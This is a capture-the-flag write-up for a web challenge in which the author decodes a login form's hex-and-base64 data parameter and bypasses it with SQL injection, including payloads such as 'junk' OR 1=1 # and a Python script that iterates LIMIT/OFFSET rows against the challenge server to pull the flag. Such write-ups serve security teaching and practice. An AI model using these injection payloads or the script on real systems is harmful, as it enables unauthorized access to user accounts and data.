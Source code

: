 ## web3

**Category:** Web

**Points:** 200

**Solves:** 0

### Write-up

Upon opening the link provided, we were presented with the following form

![image](img/2018-10-04_22-32.png)

viewing the source code revealed that the form's data were modified before being sent to the backend checker (`web3.php`) through a GET parameter (`?data=`)

![image](img/2018-10-04_22-56.png)

basically, `data` parameter is generated from the `login` & `pass` which are encoded as follows

```
toHex(base64(login),base64(pass))+md5(toHex(base64(login),base64(pass)))
```

below is an example of the request with `admin:admin` as the credential

![image](img/2018-10-04_23-04.png)
![image](img/2018-10-04_23-08.png)

the form was vulnerable to SQL injection which were proven with supplying single quote (`'`) as the `login`

![image](img/2018-10-04_23-12.png)

after trying the common `junk' OR 1=1 #` injection to bypass the check, we were presented with the following error

![image](img/2018-10-04_23-19.png)

this signifies that we had successfully login as a user, but the user does not have the access to the secret data. if you know your SQL, you can tell that the injection used above will return true for every row. but since the script will only check for one user, it probably only took the topmost row returned from the query. so how can we choose the user in the table? yep, by using `LIMIT` and `OFFSET` statement. since this is not an SQL tutorial, I will not explain it in length, bu you can read more about it [HERE](https://www.w3schools.com/php/php_mysql_select_limit.asp). So what we will do is go through every user in the table using the following payload `junk' OR 1=1 LIMIT 1 OFFSET row_num #` as the login. we will manipulate the `row_num` to limit the query to return only one user at `row_num` offset. below is an automated script in python which will bruteforce the user for the flag

```python
import requests
import hashlib
from base64 import b64encode

i = 0

while True:
    login = b64encode("junk' OR 1=1 LIMIT 1 OFFSET {} #".format(i))
    passw = b64encode('junk')
    m = hashlib.md5()
    data = (login + ',' + passw).encode("hex")
    m.update(data)
    data = data + '+' + m.hexdigest()
    r = requests.get('http://128.199.241.21/web3.php?data=' + data)
    print i, '=', r.text
    if ('not authorized' not in r.text):
        break
    i += 1
```

![image](img/2018-10-05_00-22.png)

**Flag** : `PffftHHhhhW3bHack1ngiz34zyL0L@kictm2018`
